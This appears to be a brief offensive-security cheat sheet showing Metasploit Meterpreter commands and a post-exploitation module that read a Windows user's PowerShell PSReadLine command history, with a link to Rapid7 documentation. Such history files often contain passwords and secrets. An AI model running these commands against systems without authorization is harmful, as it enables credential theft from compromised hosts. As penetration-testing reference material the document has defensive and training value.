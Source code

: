 # Metasploit

## 01 - Meterpreter Command

```
meterpreter > cat %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

meterpreter > cat %alluserprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

## 02 - Post Module

```
meterpreter > run post/windows/gather/psreadline_history
```

---
## References

- [Rapid7: Metasploit Framework PSReadline History Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/psreadline_history.md)